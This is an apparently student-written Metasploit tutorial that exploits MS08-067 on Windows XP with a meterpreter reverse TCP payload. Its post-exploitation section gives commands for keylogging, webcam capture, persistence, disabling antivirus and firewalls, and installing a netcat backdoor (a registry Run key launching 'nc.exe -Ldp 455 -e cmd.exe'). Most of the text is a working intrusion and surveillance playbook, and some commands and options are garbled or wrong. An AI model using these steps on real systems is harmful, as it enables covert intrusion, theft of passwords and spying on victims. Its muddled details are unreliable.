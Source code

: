 
###Metasploit Instructions
##Introduction
Metasploit is a software tool which uses exploits to test the vulnerability of a computer or server and uses the exploits to gain access to things that had restricted access. This helps computer users understand how defenseless their computer might be and how important it is that they fix it. It also allows the users to understand the importance of security. The needed knowledge and skills that come with Metasploit is the ability to use nmap and exploit scanners because the Metasploit doesn’t actually scan for vulnerabilities; it can only exploit. Without the nmap or exploit scanners you cannot actually use Metasploit because you will not know what exploit to use. One should also be able to use and understand command line in linux or Windows. The necessary tools for Metasploit are a vulnerability scanner of some sort to find out what exploits you need and another virtual machine or a computer that belongs to the Metasploit user is also necessary since it is illegal to use Metasploit to exploit and gain access to computers that they are not allowed to access. One must download and install Metasploit.  The first steps that I will cover in this are how to use the Exploit database and find the exploit that is needed, I will move to how to use the exploit and how to execute said exploit and lastly I will cover how to make use of said exploit by either metepreter or command line.
##Exploiting
If you were to find your exploit from a using an exploit scanners you can skip this step. Otherwise use nmap to find out what type of OS the system you are trying to exploit uses, and see if it is unpatched version of the OS.  Once you have found out what OS it is you should look up what exploits can be used for this system’s vulnerability. For example say you are using windows XP on your computer and port 445 is open.  You could google different exploits that are used for windows XP service that are available in Metasploit.  We find that there is an exploit called MS08-67 for windows. If you were using an exploit scanner it would tell you vulnerability on that system and you wouldn’t need to google what it is.  Instead one could find out much about the different exploits from info provided by the scanner. Once you find out what the name of the exploit is you now can use Metasploit. Firstly you want to use the Metasploit console and enter the line `use exploit/ `and because we are using windows we will use `use exploit/windows/`
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/show.PNG)

After this we need to know what kind of exploit this is. Fortunately we already know what kind of exploit this is from the google search or the exploit scan. Once we get this down we can now use tab to list the number of exploits that you that windows has. But since we already know which exploit we are going to use we use the command `use exploit/windows/smb/ms08_067_netapi`.
After getting to the exploit we need there are multiple things we must set up before we can use the exploit against the vulnerable computer. To do this we use the show options command in Metasploit which will give us three options for the MS08-67 exploit, but we will only be using the first two.  The first option is RHOST which is the address of the host. We use the command `set RHOST 127.0.0.0.1`with the correct IP address of the user you are using. The second option is PHOST with this we must use an open port that the target computer has open. We set this to port 445 because that is the port that is used for this type of exploit. One would have figured this out from previous steps such as the nmapping or exploit scan. 
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/optionswithset.PNG)

##Payload
The next step in the process is to set the payload. With this we use the show payload command which shows every type of payload we can use for this exploit. For this one we will use the metepreter reverse tcp . This allows us to use the metepreter function of Metasploit which has many different tools and built in scripts. So to do this we the command `set  payload windows/metepreter/reverse-tcp`. This step sets the payload to activate we you use the run command. Before you can run it you must set the properties for the payload. For this we use show payload options and one can see that there is two different options. The first option is LHOST which we want to set to your ip address. To change this we use the `set LHOST 127.0.0.1.`. The second option is the port you want to use to connect to the exploited machine.  To change this we use `set LPORT 6666`.
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/showpayload.PNG)

After this is all done and it done correctly we should be able to run the exploit against the vulnerable. With the command `exploit`.
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/exploit.PNG)

##Post Exploitation
If everything is working correctly the exploit should work and the payload should drop. We should have access to the metepreter. At this point there a few things we can and should do. First thing we want to do is check the system we are running on. There are multiple things you can do now with this now which I will split into multiple sections.
###Gaining Information
The first section will be about getting information about the user from metepreter.  We can run the sysinfo command to get the system information of the computer that you are running. This will be extremely helpful if you were unaware of how patched the XP machine is. The next thing we can do is use a keylogger to get passwords or personal information about the user. We do this by using the command `keyscan` into the metepreter. With this it will scan for keystrokes and when we want to see what the user has typed in we use the `key_dump` to see what the user has typed in. Another thing you can do on the machine is see the user screen. This is done through the command `getgui –u username –p password`. This will enable rdp if it has been disabled and will allow you to get access to the screen of the computer. The last thing I will include in getting information about the user is the webcam command. To see if the computer has any webcams we use the command `webcam_list` and if there is one we can use the command `webcam_snap` which will take a picture of the person using the computer.
###Mataining Access
The next section I will talk about is how to maintain access to the computer. The next thing you should do is use the metepreter persistence which will allow you to have access to the system under certain situations.  To do this we use the command `run persistence –X –i  5 –p 6665 –r  127.0.0.1`. The –X will connect you to the computer whenever you have metepreter open and the system is booted up. The –i is the intervals that it will try to connect to the host. The –p is for the port that you will be connecting to and the –r is used for your ip address. This will allow you connect the infected machine even after the user has shut down when the user turns it back on instead of kicking you off for good. Let also say we want to make sure we don’t get kicked off the machine by an antivirus, we could run the command `killav` which can disable many anti viruses. We can also use the command `run getcountermeasures` to see if we can disable firewalls of the infected computer. The last thing you might want to do is install a backdoor to get to the computer if the persistence command fails. This can be done by first uploading netcat to the remote system using the command `upload /usr/share/windows-binaries/nc.exe C:\windows\system32` which will put the netcat executable onto the vulnable machine. The next thing we do is to allow it to run at every time the computer starts up so we use the command
`reg setval -k HKLM\software\microsoft\windows\currentversion\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 455 -e cmd.exe`. This will make the netcat start everytime with port 455 open.  The last thing we need to is make sure the firewall will enable the netcat connection to go through ( which could be avoided if you disabled the firewall with getcountermeasures). We do this by using the command `netsh firewall add portopening TCP 455 "Service Firewall" ENABLE ALL` which will open up the port to be accessed through the firewall. With the backdoor installed you no longer need to use metesploit to log into the vulnerable machine. Instead you need only to use `nc -v 127.0.0.01 455` in your commandline to connect to the machine that you have infected.
##Conclusion
While this is only one of the exploits that you can use to gain access to a computer, the purpose of the exploit is many of things taught in these instructions can be substituted for other exploits or scripts. So even though it doesn’t cover all of the types of instruction, many approaches can be learned from just one example of an exploit. I choose the MS08-67 exploit because it was easy and allows for remote access while some exploits do not. Hopefully these instructions will help you understand Metasploit better and how to be safer and more proficient with computers.
